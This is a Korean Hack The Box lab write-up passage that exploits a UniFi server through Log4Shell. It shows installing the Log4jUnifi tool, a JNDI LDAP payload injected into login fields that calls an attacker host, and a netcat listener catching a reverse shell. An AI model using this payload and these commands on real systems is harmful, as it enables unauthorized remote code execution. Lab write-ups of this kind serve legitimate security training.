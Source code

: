 ![](../assets/image_post/20240311185745.png)

해당 툴을 사용하려면 우선 kali 환경에 설치가 필요하다.
``` bash
# apt install openjdk-11-jre maven
# git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi && cd Log4jUnifi && pip3 install -r requirements.txt
# mvn package -f utils/rogue-jndi/
```

사용 가이드에 있는 것과 같이 reverse shell 연결을 시도해보자.
``` bash
┌──(root㉿kali)-[/home/user/htb/Log4jUnifi]
└─# python exploit.py -u https://10.129.74.224:8443 -i 10.10.14.175 -p 443
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.14.175:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.14.175:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!
```

분명 위와 같이 check for a callback! 이라고 나왔지만, shell 화면이 나오지 않아 기다렸다. 하지만 그대로 변하지 않기에 뭔가 입력해보니 "$"이나 "#"과 같은 표시가 안나타고있었을 뿐이였다.
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.74.224] 46038
whoami
unifi
```
이제 쉘을 획득하였으니 어떤 정보가 있는지 확인해보자.
